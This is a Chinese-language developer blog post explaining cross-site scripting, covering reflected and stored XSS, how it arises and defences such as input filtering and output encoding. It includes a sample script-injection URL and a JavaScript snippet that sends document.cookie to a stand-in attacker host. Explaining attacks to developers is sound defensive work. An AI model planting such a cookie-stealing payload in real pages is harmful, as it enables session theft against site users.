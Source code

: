 ```yaml
---
layout: post
title: 你们的系统真的安全吗？你们系统是不是也有这种诡异的情况呢？
date:   2019-09-24 22:14:54
categories: Web安全
---
```


这个文章来源灵感是公司的项目在安全检查的时候，发现了很多 SQL 注入的一些问题还有一些 XSS 攻击问题，SQL 注入我们都是比较了解的，那么什么是 XSS 攻击呢？测试反馈给我的时候我是一脸懵逼呀，现在我们就来说一下什么是 XSS 攻击，以及我们怎么防止它的出现。






## 什么是XSS攻击

我当时听到 XSS 攻击的时候是一脸懵，但是，程序员咱们不就是就是解决问题的嘛，于是打开 Chrome ，百度！

百度百科给出的解释是这样的：

XSS 攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是 JavaScript ，但实际上也可以包括 Java 、 VBScript 、ActiveX 、 Flash  或者甚至是普通的HTML。攻击成功后，攻击者可能得到包括但不限于更高的权限（如执行一些操作）、私密网页内容、会话和 cookie 等各种内容。


XSS攻击是Web攻击中最常见的攻击方法之一，它是通过对网页注入可执行代码且成功地被浏览器 执行，达到攻击的目的，形成了一次有效XSS攻击，一旦攻击成功，它可以获取用户的联系人列 表，然后向联系人发送虚假诈骗信息，可以删除用户的日志等等，有时候还和其他攻击方式同时实 施比如SQL注入攻击服务器和数据库、Click劫持、相对链接劫持等实施钓鱼，它带来的危害是巨大的，是web安全的头号大敌。

## XSS攻击类型

1. XSS 反射型攻击，恶意代码并没有保存在目标网站，通过引诱用户点击一个链接到目标网站的恶意链接来实施攻击的。

其实反射型 XSS ,也叫非持久型 XSS ，是指发生请求时，XSS 代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含 XSS 代码，最后浏览器解析并执行。从概念上可以看出，反射型 XSS 代码是首先出现在URL中的，然后需要服务端解析，最后需要浏览器解析之后 XSS 代码才能够攻击。

我们看一下 XSS 攻击他是怎么使用 URL 来进行攻击的。

具体流程：

- 1给2发送一个恶意构造了Web的URL。
- 2点击并查看了这个URL。
- 恶意页面中的JavaScript打开一个具有漏洞的HTML页面并将其安装在2电脑上。
- 具有漏洞的HTML页面包含了在2电脑本地域执行的JavaScript。
- 1的恶意脚本可以在2的电脑上执行2所持有的权限下的命令。

举个例子来说就像是这样的，``` http://localhost:8080/helloController/search?name=<script>alert("hey!")</script>```


2. XSS存储型攻击，恶意代码被保存到目标网站的服务器中，这种攻击具有较强的稳定性和持久性，比较常见场景是在博客，论坛等社交网站上，但OA系统，和CRM系统上也能看到它身影，比如：某CRM系统的客户投诉功能上存在XSS存储型漏洞，黑客提交了恶意攻击代码，当系统管理员查看投诉信息时恶意代码执行，窃取了客户的资料，然而管理员毫不知情，这就是典型的XSS存储型攻击。

而 XSS 存储型攻击，也叫持久型 XSS ，主要是将 XSS 代码发送到服务器（不管是数据库、内存还是文件系统等。），然后在下次请求页面的时候就不用带上 XSS 代码了。最典型的就是留言板 XSS。用户提交了一条包含 XSS 代码的留言到数据库。当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来。浏览器发现有 XSS 代码，就当做正常的HTML和JS解析执行。XSS 攻击就发生了。

这种存储型攻击一般就会用来窃取 Cookie，token，账号和密码这样的数据，

就比如说，我们在页面上写内容的时候，A发了一篇文字，B回复的应该是文字才对，这时候B发送了一段文字，并且在内容里面嵌入了JS的代码，这时候B的JS的代码就会执行，比如在里面窃取你的Cookie等操作，这些都是有可能存在的。

还有的就是有一些网站，在本应该是图片的地方他加上了Src,在你无意中惦记图片的时候，就直接跳转到某个网站下，这些属于其实也是属于XSS攻击的。

就比如说他要获取你的Cookie：
```
var i=document.createElement("img")
document.body.appendChild(i)
i.src = "http://www.hackerserver.com/?c=" + document.cookie

```
就再图片的后面给你加上了这个获取你Cookie的方法，然后你在点击到这个链接的时候，就会把Cookie的信息带出来了。


## XSS攻击需要有哪些条件

1. 需要向web页面注入恶意代码；

2. 这些恶意代码能够被浏览器成功的执行。

也就是说，一旦满足这条件的时候，就会出现XSS攻击这种情况，那么，你的系统安全性将会受到严重的破坏。

## XSS原理

其实XSS攻击最主要发生的地方就是我们的HTML中，因为HTML是一种超文本标记语言，通过将一些字符特殊地对待来区别文本和标记，例如，小于符号（<）被看作是HTML标签的开始，```<title>与</title> ```之间的字符是页面的标题等等。当动态页面中插入的内容含有这些特殊字符（如<）时，用户浏览器会将其误认为是插入了HTML标签，当这些HTML标签引入了一段JavaScript脚本时，这些脚本程序就将会在用户浏览器中执行。所以，当这些特殊字符不能被动态页面检查或检查出现失误时，就将会产生XSS漏洞。

我们说完到底什么是XSS攻击之后，我们该说一下到底应该怎么去防范了。

## 如何防止XSS攻击

1.入参字符过滤

比如说把输入的一些不合法的东西都过滤掉，从而保证安全性。如移除用户提交的的DOM属性如onerror，移除用户上传的Style节点，`<iframe>, <script>，<a>`节点等

2.出参进行编码

像一些常见的符号，如<>在输出的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。例如：对<>做编码如："<"用:"&lt;",">"用:"&gt;"来代替。

3.入参长度限制

xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。

4.纯前端渲染

纯前端渲染的过程：

(1).浏览器先加载一个静态 HTML，此 HTML 中不包含任何跟业务相关的数据。

(2).然后浏览器执行 HTML 中的 JavaScript。

(3).JavaScript 通过 Ajax 加载业务数据，调用 DOM API 更新到页面上。

在纯前端渲染中，我们会明确的告诉浏览器：下面要设置的内容是文本（.innerText），还是属性（.setAttribute），还是样式（.style）等等。浏览器不会被轻易的被欺骗，执行预期外的代码了。

但纯前端渲染还需注意避免 DOM 型 XSS 漏洞（例如 onload 事件和 href 中的 javascript:xxx 等，请参考下文”预防 DOM 型 XSS 攻击“部分）。

在很多内部、管理系统中，采用纯前端渲染是非常合适的。但对于性能要求高，或有 SEO 需求的页面，我们仍然要面对拼接 HTML 的问题。

以上就是我想给大家讲述的内容了，如果你们公司的系统还没有做过XSS漏洞检测，那么你就可以适当的把自己的代码修改一下了，毕竟我们不是一点JS代码都不写的，你说呢？

我是懿，一个正在被打击还在努力前进的码农。欢迎大家关注我们的公众号，加入我们的知识星球，我们在知识星球中等着你的加入。
